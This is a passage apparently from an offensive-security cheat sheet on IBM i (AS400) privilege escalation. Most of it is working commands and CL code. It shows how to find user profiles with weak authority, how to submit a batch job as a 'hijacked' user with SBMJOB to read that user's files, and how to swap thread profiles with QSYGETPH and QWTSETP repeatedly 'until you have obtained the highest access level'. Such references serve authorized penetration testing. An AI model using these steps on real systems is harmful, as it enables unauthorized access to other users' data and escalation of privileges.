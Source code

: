     ```ps1
    PRTPUBAUT OBJTYPE(*USRPRF)
    ```

* Print Private Authority

    ```ps1
    PRTPVTAUT OBJTYPE(*USRPRF)
    ```

Look for `*USE` rights or better(e.g. `*CHANGE`, `*ALL`) to someone else's User Profile.

This `SBMJOB` command will submit a batch job to run under the `HIJACKED_USER` user profile, and will print out the records in the `FILE_OF_HIJACKED_USER` file where the `HIJACKED_USER` User Profile have access.

> The Submit Job (SBMJOB) command allows a job that is running to submit another job to a job queue to be run later as a batch job. Only one element of request data can be placed on the new job's message queue. - [IBM/SBMJOB](https://www.ibm.com/docs/en/i/7.4?topic=ssw_ibm_i_74/cl/sbmjob.html)

```ps1
SBMJOB CMD(CPYF FROMFILE(FILE_OF_HIJACKED_USER) TOFILE(*PRINT)) USER(HIJACKED_USER)
```

### Hijack Profile - Profile Swapping

Used to change the thread user profile running the application in order to obtain elevated authority.

* Check the list of profiles
* Grab a profile handle: [`QSYGETPH`](https://www.ibm.com/docs/api/v1/content/ssw_ibm_i_75/apis/QSYGETPH.htm)
* Set profile based on the token generated by QSYGETPH: [`QWTSETP`](https://www.ibm.com/docs/api/v1/content/ssw_ibm_i_75/apis/QWTSETP.htm)
* Repeat until you have obtained the highest access level
* Release profile handle: [`QSYRLSPH`](https://www.ibm.com/docs/api/v1/content/ssw_ibm_i_75/apis/QSYRLSPH.htm)

```c
/* Call QSYGETPH to get a profile handle for a user. */
/* NOTE: Change USERPROFILE to the user who you want to swap to. */
CALL QSYS/QSYGETPH ('USERPROFILE' '*NOPWDCHK' &HNDL)
/* Call QWTSETP to swap to the profile. */
CALL QSYS/QWTSETP &HNDL
```

| Value        | Description             |
| ------------ | ----------------------- |
| `*NOPWD`     | The user requesting the profile handle must have `*USE` authority to the user profile. A profile handle does not get created for a disabled user profile. A profile handle does not get created for a user profile with an expired password. |
| `*NOPWDCHK`  | The user requesting the profile handle must have `*USE` authority to the user profile. If the profile is disabled, the user requesting the profile handle must have `*ALLOBJ` and `*SECADM` special authorities to get a handle. If the password is expired, the user requesting the profile handle must have `*ALLOBJ` and `*SECADM` special authorities to get a handle. |
| `*NOPWDSTS`  | The user requesting the profile handle must have *USE authority to the user profile. A profile handle does not get created for a disabled user profile. If the password is expired, the user requesting the profile handle must have `*ALLOBJ` and `*SECADM` special authorities to get a handle. |

You cannot obtain a profile handle for the following system-supplied user profiles:

```ps1
QAUTPROF  QDLFM       QMSF      QSNADS      QTSTRQS
QCLUMGT   QDOC        QNETSPLF  QSPL
QCOLSRV   QDSNX       QNFSANON  QSPLJOB
QDBSHR    QFNC        QNTP      QSRVAGT
QDBSHRDO  QGATE       QPEX      QSYS
QDFTOWN   QLPAUTO     QPM400    QTCP 
QDIRSRV   QLPINSTALL  QRJE      QTFTP 
```
